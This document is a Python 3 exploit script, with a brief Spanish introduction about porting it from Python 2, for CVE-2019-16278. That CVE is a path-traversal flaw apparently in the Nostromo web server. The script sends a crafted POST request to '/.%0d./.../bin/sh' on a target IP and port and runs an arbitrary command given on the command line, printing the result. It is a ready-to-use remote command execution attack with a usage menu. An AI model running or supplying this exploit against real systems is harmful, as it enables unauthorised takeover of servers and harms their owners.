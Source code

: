 
Para hacer que el script funcione en Python 3, hay que hacer algunas modificaciones menores debido a las diferencias en el manejo de cadenas y sockets entre Python 2 y Python 3. 

```python
#!/usr/bin/env python3

import sys
import socket

art = """
                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    
"""

help_menu = '\r\nUsage: cve2019-16278.py <Target_IP> <Target_Port> <Command>'

def connect(soc):
    response = b""  # Usamos b"" para indicar que estamos trabajando con bytes
    try:
        while True:
            connection = soc.recv(1024)
            if len(connection) == 0:
                break
            response += connection
    except Exception as e:
        print(f"Error: {e}")
    return response.decode('utf-8', errors='ignore')  # Decodificamos los bytes a una cadena UTF-8

def cve(target, port, cmd):
    soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  # Creamos un socket IPv4 TCP
    soc.connect((target, int(port)))
    payload = f'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{cmd} 2>&1'
    soc.send(payload.encode())  # Codificamos la cadena a bytes antes de enviarla
    receive = connect(soc)
    print(receive)

if __name__ == "__main__":
    print(art)
    
    try:
        if len(sys.argv) < 4:
            print(help_menu)
        else:
            target = sys.argv[1]
            port = sys.argv[2]
            cmd = sys.argv[3]
            cve(target, port, cmd)
    except Exception as e:
        print(f"Error: {e}")
```
